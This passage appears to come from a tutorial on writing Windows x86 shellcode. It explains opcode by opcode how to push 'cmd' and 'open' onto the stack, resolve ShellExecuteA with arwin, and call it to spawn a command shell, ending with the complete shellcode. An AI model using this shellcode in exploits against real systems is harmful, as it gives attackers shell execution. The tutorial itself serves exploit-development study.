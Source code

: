 Therefore, we will edit the shellcode as follows:
```
"\x68\x63\x6D\x64\x00"			// PUSH "cmd" and terminates the string \x00
										// Now it is 4-byte aligned
"\x6a\x00"							// PUSH 0: Terminates the string "open" by
										// directly pushing \x00 onto the stack
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
```

Since the `ShellExecuteA` function arguments require a pointer to these strings (and not the string itself), we will have to save a pointer to each string using a register.
Therefore, after pushing the strings to the stack, we will save the current stack position into a register.
When we push the string, `ESP` will be aligned to the top of the stack. Hence, it will point to the string itself.

Storing this value in a register (such as `EBX` or `ECX`) allows us to save a pointer to that string. Then we will just have to pass the pointer as an argument of the function.

```
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
"\x8B\xDC"							// MOV EBX, ESP
										// puts the pointer to the text "cmd" into EBX
"\x6a\x00"							// PUSH the string terminator for "open"
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
"\x8B\xCC"							// MOV ECX, ESP
										// puts the pointer to the text "open" into ECX
```

In order to find the address of the function, we will use the **arwin** tool:
`arwin.exe Shell32.dll ShellExecuteA`:
```
arwin win32 address resolution program - by steve hanna - v.01
ShellExecuteA is located at 0x762bd970 in Shell32.dll ←
```

This is our complete shellcode:
```
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
"\x8B\xDC"							// MOV EBX, ESP
										// puts the pointer to the text "cmd" into EBX
"\x6a\x00"							// PUSH the string terminator for "open"
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
"\x8B\xCC"							// MOV ECX, ESP
										// puts the pointer to the text "open" into ECX

"\x6a\x03"							// PUSH 3, the last argument
"\x33\xC0"							// XOR EAX, EAX
										// zero out the EAX register
"\x50"								// PUSH EAX: push the second to last argument: 0
"\x50"								// PUSH EAX: push the third to last argument: 0
"\x53"								// PUSH EBX: push pointer to string "cmd"
"\x51"								// PUSH ECX: push pointer to string "open"
"\x50"								// PUSH EAX: push the first argument: 0
"\xB8\x70\xD9\x2b\x76"			// MOV EAX, 762BD970: move ShellExecuteA address into EAX
"\xff\xD0"							// CALL EAX: call the function ShellExecuteA 
```

